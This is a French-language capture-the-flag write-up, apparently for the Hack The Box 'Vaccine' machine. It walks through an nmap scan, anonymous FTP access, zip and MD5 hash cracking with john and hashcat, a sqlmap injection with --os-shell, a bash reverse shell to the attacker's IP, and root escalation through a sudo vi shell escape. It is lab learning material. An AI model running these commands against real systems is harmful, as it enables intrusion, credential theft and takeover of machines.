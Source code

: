 # VACCINE

## Task 01
Commençons avec notre famux nmap pour voir les port ouvert et les service utiliser!😌

```bash
nmap -sV -sC -p- [IP de la cible]
```

On voit tout de suite la réponse a la première question! le service en plus de SSH et de HTTP ouvert et le service `ftp`. 

---
## Task 02
Sur le quelle on sait que l'on peut ce connecter avec un login `anonymous` et un password `blank`.<br/>

---
## Task 03
Pour répondre a la question 3 on constate qu'un fichier et télécharger dans le service. Ce fichier est le `backup.zip`.

---
## Task 04
On vas donc télécharger ce fichier en commençant par ce connecter au service!! 
```bash
ftp anonymous@[ip de la cible]
```
On valide le passwor sans rien entrer et nous voila connecter! 😈

On passe tout de suite la commande: 
```bash
get backup.zip 
```
Pour pouvoir s'en occuper sur notre machine!<br/>

Et pour suivre et répondre a la question 4 on vas utiliser une comande de john qui vas nour permettre d'obtenir le code hasher de ce fichier pour pouvoir l'unzip.<br/>
On tape donc la commande :
```bash
sudo zip2jhon backup.zip > codefichierzip.txt
```

On lui précise le fichier pour le quelle on veut un hash et la destination (création de fichier avec le hash du code.)

---
## Tash 05
Obtenir le code de l'administrateur a partir de tout ca! On vas donc continuer sur notre lancer et obtenir le code de ce fichier.<br/>

Avec la commande: <br/>

```bash
sudo john --format=pkzip -w ./rockyou.txt codefichierzip.txt
```

Maintenant que c'est fait on obtien le code on vas donc deziper de fichier a la suite de la commande:

```bash
unzip backup.zip
```
Un prompt du password apparait on rentre donc le code obtenu plus tot!!!! <br/>

On voit désormais que l'on a accé a deux fichier distinct le `index.php` et le `style.css` naturelement je me direge vers le fichier php! Et en y regardant de plus pret je constate qu'un mot de passe apparait! 🤤<br/><br/>

Je vais donc de suite sur un outils en ligne qui est `hashes.com` pour identifier ce hash qui est au format `MD5`, <br/>
Puis je créer un fichier.txt pour pouvoir le faire interpreter.

```bash
echo "codeobtenuedansindex" > codeindex.txt
```

Je retourne donc sur ma machine et je vais maintenant utiliser ---> `Hashcat` <--- (pas encore trés bien compris la diiférence entre les deux mais celui ci peut me permettre de donner un format pour résoudre ce hash) Je vais doonc dans help de hashcat et tout en bas il me dit comment utiliser le tools je tape donc : 
```bash
hashcat -a 0 -m 0 codeindex.txt ./rockyou.txt
``` 
`-a`: attack mode. 0 pour straight. <br/>
`-m`: pour préciser le type de hashe. MD5 <br/>
<br/>

Je lance donc la commande et hashcat me dit que la liste n'est pas asser longue. Je relance donc:

```bash
hashcat -a 0 -m 0 codeindex.txt /usr/share/seclists/Password/Common-Credentials/100k-most-used-password.txt
```

Et voila qu'il me donne le password tant voulu celui ci est !!!!!!! qwerty789 😈😈

Et la réponse a la question 5 est la!

--- 
## Task 6

Quelle est l'option qui peut etre passer a sqlmap pour prendre les commande durant une sql injection ? 

```bash
--os-shell
```

---
## Task 07

Il nous faut maintenan trouver un moyen de ce connecter afin de continuer les tache alors comment allons nous faire ? <br/>
Une injection sql évidement car j'ai etait orienter vers ca mais comment procéder ? <br/>

Dur dur une commande m'a était transmise pour faire un sqlmap
```bash
sqlmap -u 'http://[Ip de la cible]/dashboard.php?search=any+query' --cookie="PHPSESSID=[valeur du cookie obtenue via cookie editor extension mozzila]"
```

Puis on retape la même chose avec:
```bash
--os-shell
```

Puis on ouvre un ncat sur le port 443:
```bash
nc -lvnp 443
```

Et finalement on envoi une commande qui nous permettra d'obetnir un shell:

```bash
bash -c bash -i >& /dev/tcp/[mon adress ip]/443 0>&1
```

Tout de suite on envoi une commande dans la fenetre pour pouvoir avoir ce shell stable:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


Maintenant que celui est stble je tente:
```bash
sudo -l 
```

Ca ne fonctioone pas car je n'ai pas encore le code sudo de ce user. Je part en direction de `/var/www.hmtl`, je remonte les dossier un a un au cas je pourrais tomber sur un fichier intéréssant et par chance c'est le cas le tombe sur le `user.txt` dans le repo postgres je le cat et obtiens le user flag.<br/>
Je continue mon chemin rien d'intéréssant jusqu'a ce que j'arrive dans le dossier voulu. Arriver la je cat chaque fichier pour voir si il n'y a pas une information intéréssante. <br/>
Une fois arriver le tour de `dashboard.php` le password du user postgres est afficher sous mes yeux 😈😈😈 <br/><br/>

Je vais enfin pouvoir avoir une connection stable qui ne sera pas déconnecter toutes les 2 minute 😭 c'était dur!!<br/>

Je me connecte donc en ssh:

```bash
ssh postgres@[ip de la cible]

//prompt de password je rentre donc ce que je viens de trouver et partons à la recherche des deux dernére info demander.
```

Je peut maintenant faire un `sudo -l` car j'ai le mots de passe je m'y met pour obetnir la réponse a la question qui est :
```bash
vi
```

## Task 8 - Task 9

### USER AND ROOT FLAG
User obtenue au cour de mon exploration pour le mot de passe de postgres 
Voyons voir maintenant comment escalader les privilége pour obtenir le mot de passe root ou une facon de le contourner pour aller chercher le root flag.<br/><br/>

Incroyable ce qui viens de ce passer un nouveau truc! On peut escalader les privilége en tapant des commande depuis un fichier!<br/>

Il s'avére qu'une seul commande etait disponible en sudo `/bin/vi`, <br/>
Et ceci sur un seul fichier!! `/etc/postgresql/11/main/pg_hba.conf`. <br/><br/>

Aprés quelque recherche je comprend qu'il faut que je set un shell depuis cette commande mais comment faire??? 🤯

C'est clairement grace au walktrough encore du nouveau et j'adore ca!<br/>
J'apprend qu'il faut que je set le shell depuis l'intérieur du seul fichier que je peut editer! Pétage de crane a ouai ? <br/>
Je lance:
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
Rentre le code du user. Puis:
```bash
: [enter]
:set shell:/bin/sh
:shell
```
Et comme par magie on a accés a un shell! Et en tapant:
```bash
whoami
```
On voit que l'on est root.
Plus qu'a prendre ce root flag... Dur dur de ne pas avoir trouver mais on en apprend tout les jours.
